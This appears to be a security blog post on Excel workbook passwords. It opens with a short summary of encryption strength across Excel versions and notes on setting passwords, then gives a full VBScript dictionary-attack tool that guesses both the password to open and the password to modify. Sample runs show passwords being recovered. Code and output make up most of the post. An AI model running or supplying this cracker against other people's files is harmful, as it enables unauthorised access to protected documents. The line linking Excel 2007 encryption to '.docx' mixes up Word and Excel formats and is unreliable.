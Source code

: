 ```yaml
---
title:  "Dictionary Attack on Excel Passwords"
---
```


![Logo](/assets/images/dictionary.jpg)

## Context 

When thinking about the security of encrypted Excel documents, I found a great article analyzing [security of encryption algorithms](http://www.oraxcel.com/projects/encoffice/help/How_safe_is_Excel_encryption.html) for Excel spreadsheets. The bottom line is that:
* Encryption in Excel 2007 IS secure only for ".docx". For ".doc" it's NOT secure with default settings.
* Encryption in Excel 2002 and 2003 IS secure, but NOT when used with default settings!
* Encryption in Excel 95, 97 and 2000 is NOT secure at all :)

Instructions on how to make sure you're using the most secure algorithms and how to change the default settings in the referenced link. Another good reference on Excel 2007 Encryption Strength is [this discussion](https://security.stackexchange.com/questions/17702/excel-2007-encryption-strength)

## Setting password to open/modify
Changing/removing the **_password to open_** a file is pretty straight-forward in Excel 2007-2010: File menu->Info->Encrypt with password. 
I found that changing the **_password to modify_** is not so straight-forward. To set/remove a "read-only" password, from the _Save_ or _Save As_ dialog boxes, select _General Options_ from the _Tools_ drop-down menu to open the _General Options_ dialog box. There, in the _Password to modify box_, you can enter the new password or blank to remove the current one. 

## Dictionary attack
If the password is a dictionary word, then it's pretty easy to find it. I've made a small Visual Basic script to attack these 2 passwords (password to open and password to modify)  using words from a dictionary file. This could also be extended to something like the rules in [jtr](https://github.com/magnumripper/JohnTheRipper) to intelligently guess/brute-force passwords, possibly based on the very efficient [KoreLogic John rules](http://contest-2010.korelogic.com/rules.html). 

Currently it's just a proof of concept, and it's very slow, but it could be extended to use more threads or optimized:
```vbs
' *****************************************************************
' Dictionary attack on Excel passwords
'
' Uses Workbooks.open method and a password dictionary to test:
' 1) password to open 
' 2) password for write access, using open password
'
' Usage: "CScript excel-pw-attack.vbs <test .xls=""> <words .dic="">"
'
' Full Description:
' http://insecure.tk/......
' *****************************************************************
Option Explicit
On Error Resume Next
 
Dim objExcel
Set objExcel = WScript.CreateObject("Excel.Application")
objExcel.visible=False
 
Dim args
if WScript.Arguments.Count < 2 or WScript.Arguments.Count > 3 then
   WScript.Echo "Usage: "
   WScript.Echo "Search password for open: "
   WScript.Echo "   CScript " & WScript.ScriptName & " <excel file=""> <dictionary file="">"
   WScript.Echo "Search password for modify, using password to open: "
   WScript.Echo "   CScript " & WScript.ScriptName & " <excel file=""> <dictionary file=""> <open password="">"
   WScript.Quit 1
end if
 
' Excel file should be in the script's directory
Dim xlsFile, currentPath
currentPath = replace(WScript.ScriptFullName, WScript.ScriptName, "")
xlsFile = currentPath & WScript.Arguments(0)
WScript.Echo "Brute-forcing excel file: " & xlsFile
WScript.Echo "Using dictionary file: " & WScript.Arguments(1)
if WScript.Arguments.Count = 3 then
 WScript.Echo "Using open password " & WScript.Arguments(2) & " to get the write password"
end if
 
' Read the passwords from the dictionary file
Dim objFSO
Set objFSO = CreateObject("Scripting.FileSystemObject")
 
Dim objFile
Const ForReading = 1
Set objFile = objFSO.OpenTextFile(currentPath & WScript.Arguments(1), ForReading)
 
Dim currLine, bFound
bFound = False
While Not bFound And Not objFile.AtEndOfStream
 currLine = objFile.ReadLine
 WScript.Echo "[*] Testing solution " & currLine
 if WScript.Arguments.Count = 3 then
  objExcel.Workbooks.Open xlsFile, , , , WScript.Arguments(2), currLine
 else
  ' Try to open it in read-only mode
  objExcel.Workbooks.Open xlsFile, ,True , , currLine
 end if
 if Err.Number >  0 then
  'WScript.Echo Err.Description & Err.Number
  Err.Clear
 else
  bFound = True
  if WScript.Arguments.Count = 3 then
   WScript.Echo "[+] Found password for modifying: " & currLine
  else
   WScript.Echo "[+] Found password for opening: " & currLine
  end if
 end If
Wend
 
if not bFound then
 if WScript.Arguments.Count = 3 then
  WScript.Echo "[-] Not found password for modifying."
 else
  WScript.Echo "[-] Not found password for opening."
 end if
end if
 
 
objExcel.Workbooks.Close
objFile.close
```
## Usage

An example of how to use it on a test document with these 2 passwords set:
## 1. Find password to open:
```bash
> cscript excel-pw-attack.vbs test.xls words_en.txt
Microsoft (R) Windows Script Host Version 5.8
Copyright (C) Microsoft Corporation. All rights reserved.
 
Brute-forcing excel file: C:\...\test.xls
Using dictionary file: words_en.txt
[+] Found password for opening: rock
```

## 2. Find password to modify: 
```bash
>cscript excel-pw-attack.vbs test.xls words_en.txt rock
Microsoft (R) Windows Script Host Version 5.8
Copyright (C) Microsoft Corporation. All rights reserved.
 
Brute-forcing excel file: C:\...\test.xls
Using dictionary file: words_en.txt
Using open password rock to get the write password
[+] Found password for modifying: paper
```

